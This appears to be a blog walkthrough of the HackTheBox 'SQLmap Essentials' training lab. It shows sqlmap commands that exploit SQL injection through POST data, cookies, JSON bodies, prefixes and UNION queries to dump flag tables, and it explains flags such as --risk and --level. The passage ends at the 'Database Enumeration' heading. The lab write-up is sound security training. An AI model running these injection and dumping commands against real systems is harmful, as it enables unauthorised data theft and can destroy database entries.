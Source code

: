 ```yaml
---
title: "SQLmap Essentials - HackTheBox"
date: 2025-01-07 00:00:00 +0300
categories: [SQLmap Essentials]
tags: [SQLmap Essentials, cheatsheet, HackTheBox]
---
```



# SQLmap Essentials 

Hello there, welcome to my first blog of the year. 

This lab series is part of the [Bug Bounty Hunter Path](https://academy.hackthebox.com/path/preview/bug-bounty-hunter) of HackTheBox. This module aims to teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

While I wait for the final skill assessment payload to get the flag which is taking a little too long I decided to write this walkthrough. It is among the labs I enjoyed much during the Bug Bounty Path.

I hope you enjoy perusing this walkthrough as much as I did writing it.

Also find a cheatsheet of the lab the end of the blog

# Running SQLmap on a HTTP Request

We are provided with a target that leads to a page that displays links to the different Cases respective of the questions.
 
 ![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials1.png)



Questions:


`1. What's the contents of table flag2? (Case #2)`

There is an 'id' parameter that is used to retrive rows of a table from a database. 

This indicates it is a POST request. This might help us in writing the command.

`sqlmap  'http://SERVERIP:PORT/case2.php' --data='id=*1' --batch --dump -T flag2` 

From the command:


    --data - speecifies that the HTTP data provided should be sent in a POST request.

    id=*1 - This is the parameter of interest. The asterisk is a custom injection marker. 

    --batch - allows the running of the command without any user input.

    --dump - displays data from a specified database table.

    -T - specifies database table.


`2. What's the contents of table flag3? (Case #3)`

The cookie value id is vulnerable.

`sqlmap 'http://SERVERIP:PORT/case3.php'  --cookie='id=1*' --batch --dump  -T flag3`

From the command:

    --cookie - specifies the HTTP cookies that should be sent with the POST requests.


`3. What's the contents of table flag4? (Case #4) `

There is a vulnerability in a JSON value for data: id. 

While JSON data is parsed differently in a HTTP request we may use a tool like BURP or Curl to capture the raw HTTP request and output it to a file. We then use the file in the command.

We will use Burpsuite for this.

![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials2.png)


`sqlmap -r req.txt  --batch --dump  -T flag4 `

While it is applicable in this lab, we may also use the following command.

`sqlmap -u 'http://94.237.50.242:49319/case4.php'  --data={'"id":1'} --batch --dump  -T flag4`

# Attack Tuning

Sqlmap comes right off the bat as a very strong tool, though it is capable to do more with some tuning by using flags that increase the accuracy of your scan. These may include flags for Level/Risk, Status Codes, Text and Techniques etc.

In this section we will use some of the above-mentioned flags that will dig deeper in our scans to achieve our goals. Follow me as we do it.

Questions

`1. What's the contents of table flag5? (Case #5) `

This challenges indicaes an OR SQLi vulnerability for the parameter 'id'. For this we will have to use the Level/Risk flags by raising the risk level. This is done because OR payloads are inherently dangerous in a default run, where underlying vulnerable SQL statements are actively modifying the database content. 

`sqlmap -u http://83.136.248.62:52853/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5`

`sqlmap -u http://83.136.248.62:52853/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5 -dbs testdb -dbms MYSQL`

From the command:

     --no-cast - This flag ensures that you get the correct content. 
     --risk - [1-3]  extends the risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
     --level - [1-5] extends  boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
     --dbs - The database in question.
     --dbms - The underlying Database schema being used.

`2. What's the contents of table flag6? (Case #6)`

The challenge has a vulnerable parameter col. This challenge requires the use of the prefix flag.

`sqlmap -u 'http://83.136.248.62:52853/case6.php?col=id' -T flag6 --dump --batch --risk 3 --level 5 --prefix='`)'`

From the command:

    --prefix -  used to specify a prefix that will be added to the payloads sent by SQLmap during its testing process

`3. What's the contents of table flag7? (Case #7)`

The challenge has a vulnerable parameter at id and it is vulnerable using a UNION Query based technique. This means that we have to use the Union flag.

`sqlmap -u 'http://83.136.248.62:52853/case7.php?id=1' -T flag7 --dump --batch --risk 3 --level 5 --union-col=5`

From the Command:

    --union-col=5 - From the provided exercise we can manually count the columns in the table, so we include that in the command

# Database Enumeration










